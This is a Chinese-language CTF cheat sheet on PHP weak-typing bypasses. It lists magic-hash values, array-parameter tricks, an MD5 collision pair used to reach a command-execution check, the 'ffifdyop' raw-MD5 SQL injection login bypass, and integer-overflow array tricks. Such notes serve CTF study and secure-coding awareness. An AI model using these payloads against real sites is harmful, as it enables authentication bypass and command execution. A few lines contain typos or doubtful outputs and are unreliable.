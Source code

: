 ## **php弱类型：**
<https://www.cnblogs.com/linfangnan/p/13411103.html>
**类型相等判断**
PHP 比较 2 个值是否相等可以用 “ == ” 或 “ === ”，“ == ” 会在比较时自动转换类型而不改变原来的值，因此这个符号经常出现漏洞。“ == ” 比较相等的一些常见值如下，当某些语句的判断条件是使用 “ == ”来判断时，就可以使用弱类型来替代。值得一提的是 “0e” 开头的哈希字符串，PHP 在处理哈希字符串时会把每一个以 “0E” 开头的哈希值都解释为 0。

```
'' == 0 == false == "0"
"00" == true
'123' == 123
'abc'  == true  常见于字符串判断相等。
1 == true
'abc' != 1
'abc'  == 0
要和一个随机数串弱比较==相同，直接传数组[true,true]==12

'123a' == 123
'123);// ' == 123
'0x01' == 1
'0e12346789' == '0e987654321'
[false] == [0] == [NULL] == ['']
NULL == false == 0
true == 1

'1%2b2' == 1
'1+2' == 1

?num=1+2
$a=$_GET['num'] ==1
intval(a) == 3 
intval(1+2) == 3
intval("1+2") == 1
intval(" '1000' ") == 0
echo intval([0])  // 1 传一个数组永远为1

intval科学计数返回前面，科学计数后有+好返回字符串拼接后值。
intval(2019e1) == 2019
intval(2019e1+1) == 20191 

echo intval(0x117c,0) // 输出10进制4476  
第二个参数默认base是10，如果 base 是0则通过检测 var 的格式来决定使用的进制： 
◦ 如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，  
◦ 如果字符串以 "0" 开始，使用 8 进制(octal)；否则，  
◦ 将使用 10 进制 (decimal)。 

intval(010574,0) //返回值为4476
intval(+010574,0) //返回值为4476

intval(4476.1,0) //返回值为4476
intval(4476.10,0) //返回值为4476

intval(0) == 'flag字符串'
intval(aaa123) == 'flag字符串'
intval(false) == 'flag字符串'
intval(md5(phpinfo())) == '字符串' == 0  字母开头
```

如果遇到了 “===” 则不会进行类型转换，但也并不代表无从下手。如果条件表达式中含有函数，也可以通过**传入数组**让函数返回 NULL 使得条件满足。



^
## **md5判断**
**弱绕过**
```
if(md5($_POST['md51']) == md5($_POST['md52']) 
     && $_POST['md51'] != $_POST['md52'])
```
方法1：

PHP 在处理哈希字符串时，“0e” 开头的值利用 “==” 判断相等时会被视为 0。所以如果两个不同的密码经过哈希以后，其哈希值都是以 ”0E” 开头的，那么 PHP 将会认为他们相同。
md5(QNKCDZO)==0

md51和md52取以下两值
QNKCDZO  s155964671a  s1091221200a  240610708
方法2：
数组绕过，原理是 md5() 等函数不能处理数组，导致函数返回Null。而Null是等于Null的，导致了绕过。
?md51[]=1&md52[]=2

^
**强绕过**
```
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
}



a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

^
**特性**
md5("123") === md5(123)
md5("INF") === md5(INF)
md5("NAN") === md5(NAN)
在PHP中，NAN是一个特殊的浮点数值，表示非数值（Not-A-Number）。当一个运算无法计算结果时，比如零除以零，就会产生NAN。PHP中的INF是一个特殊的浮点数值，表示无穷大（Infinity）。当数值超过PHP_FLOAT_MAX或者使用一些数学函数产生极大或极小的结果时，就会得到INF。

^
**php中原值和md5(原值)后要==**
原值为0e215962017即可


^
**数据库中的MD5造成注入：**
```
select * from 'admin' where password=md5($pass,true)
```
```
<?php
$pass = "ffifdyop";
echo md5($pass,ture);  //为'or'6?]??!r,??b
?>
```
所以传入ffifdyop即可密码正确。


^
## **sha哈希**
和md5类似，

以下值在sha1加密后以oE开头：
```
sha1('aaroZmOk')
sha1('aaK1STfY')
sha1('aaO8zKZF')
sha1('aa3OFF9m')
```
^
## **php整数溢出**
PHP中整数溢出的具体值取决于系统的架构（32位还是64位）。在32位系统中，整数的范围是 -2147483648 到 2147483647，当超过这个范围时会发生溢出。在64位系统中，整数的范围是 -9223372036854775808 到 9223372036854775807。

当一个整数超过了系统所能表示的最大值，它会回绕到最小值。同样，当一个整数低于系统所能表示的最小值，它会回绕到最大值。这就是整数溢出的发生。

在PHP中，如果整数发生溢出，它不会引发错误，而是静默地产生一个新的整数值。例如，在32位系统中，如果一个整数超过了2147483647，它将回绕到-2147483648。这种行为可能导致程序逻辑错误，因此在处理较大数值时应该格外小心。

```
$arr[$_GET['0']]=1;
if($arr[]==1){ //末尾为1？ 
die($flag);
}

?0=2147483647   //使用数组整型溢出绕过赋值式“永真”
?0[]=1   //数组绕过
```


```
$arr[$_GET['0']]=1;
if($arr[]=1){  //$arr[]=1意思是给数组下一个下标赋值为1
die();
}else{
echo $flag;
}

?0=9223372036854775807     //数组下标溢出，要刚刚好，多了会截断，刚刚好时，经过$arr[]=1下标直接溢出，无法赋值。
```

^
对于会x10倍的数，传入比溢出数少1位的数大一点即可。
```
如932337203685477581
```